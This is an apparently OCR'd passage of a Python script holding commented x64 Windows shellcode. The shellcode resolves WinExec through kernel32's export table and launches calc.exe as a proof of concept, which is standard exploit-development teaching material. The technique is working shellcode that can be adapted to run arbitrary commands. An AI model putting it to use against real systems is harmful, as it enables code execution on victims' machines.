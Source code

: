 ```python
        "   mov r10d, [rdx+0x14];"          # Load number of exported functions from Export Address Table
        "   xor r11, r11;"                  # Zero out R11 to use it as a clean register
        "   mov r11d, [rdx+0x20];"          # Get RVA of the AddressOfNames from the Export Address Table
        "   add r11, r8;"                   # Convert AddressOfNames RVA to absolute address by adding base address
        "   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
        "kernel32findfunction: "
        " jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
        "   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
        "   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
        "   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
        "   dec rcx;"                       # Decrement the loop counter
        "   mov rax, 0x00636578456E6957;"   # Load the ASCII value of 'WinExec' into RAX for comparison          
        "   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'WinExec'
        "   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
        "FunctionNameFound: "
        # Entry point after finding the target function name 'WinExec'
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
        # Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
        "   inc rcx;"
        "   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
        # Preparing to fetch the actual function address from AddressOfFunctions
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
        "   mov eax, [r11+4+r13*4];"          # Fetch the function address RVA using the ordinal as an index
        "   add rax, r8;"                   # Convert function address RVA to absolute address
        "   mov r14, rax;"                  # Store the resolved function address in R14 for later use
        # WinExec Call
        "  xor rax, rax;"                   # Zero RAX to create a null byte
        "  push rax;"                       # Push the null byte onto the stack, acts as string terminator for "calc.exe"
        "  mov rax, 0x6578652E636C6163;"    # Move the reverse byte-order string 'calc.exe' into RAX
        "  push rax;"                       # Push the string 'calc.exe' onto the stack (Note: string must be reversed in memory)
        "  mov rcx, rsp;"                   # Set RCX to point to the string "calc.exe" on the stack, RCX is the first argument for WinExec
        "  xor rdx, rdx;"                   # Zero out RDX, preparing it for the next operation
        "  inc rdx;"                        # Set RDX to 1; this sets uCmdShow parameter for WinExec to SW_SHOWNORMAL
        "  sub rsp, 0x20;"                  # Allocate 32 bytes of shadow space on the stack to prevent overwriting during the call
        "  call r14;"                       # Call WinExec using the address stored in R14
    )
 
    # Initialize engine in 64-Bit mode
```